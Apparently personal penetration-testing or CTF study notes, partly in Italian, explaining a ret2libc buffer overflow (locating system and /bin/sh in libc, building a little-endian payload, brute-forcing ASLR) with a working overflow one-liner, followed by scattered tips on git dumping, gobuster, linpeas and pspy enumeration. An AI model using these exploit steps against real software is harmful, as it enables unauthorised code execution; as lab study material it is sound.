 System address

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
ldd *EXECUTABLE* -> find libc path and base address
```

Sum base and offset to get absolute paths

system = libc_base + 0x....

Need to prepare stack -> see slides

```python
payload = "A" (EIP_OFFSET) + system_addr + exit_addr + binsh_addr
```

Intel x86 is little endian so copy bytes in reverse order
0xabcdef12 === "\x12\xef\xcd\xab"

>ASLR Bypass
```bash
ldd *EXECUTABLE*
```
Gives something different each time.

Don't know libc base address, randomize 3 center bytes. Execute lot of times so that one tipe the random address is the same with the expoilt.


Addresses seen in gdb may be different. Quando si crea un payload ci saranno dentro \00 nell'indirizzo che farà in modo che libc non lo legga e non funzioni se non c'è ASLR. Se c'è solo uno 00 finale si può fare +4 (o -4 o il valore della istruzione prima o dopo) e cambiare allineamento.

```python
struck.pack("<I", address) -> to get addresses in little endian
```

FARE SCRIPT PER OFFSET

#GIT

git reset --hard HEAD -> to reset git directory
git show *HASH*
https://github.com/Ebryx/GitDump

###MAGARI USA QUESTA?
gobuster dir -w /usr/share/seclists/Fuzzing/fuzz-Bo0oM.txt

```bash
(python -c 'print "A" * 40 + "\x00\xc0\xe0\xf7" + "A" * 4 + "\x38\x33\xf5\xf7"'; cat) | ./buff2   
```
cat /proc/sys/kernel/randomize_va_space

linepeas.sh
e 
psspy (STATIC version)-> to checo cron private job

```bash
scp -i privkey file user@ip:/home/users.... -> send file through ssh
```

"file://path" -> protocol to read local files

Pager "less" incovked only if the window is small enough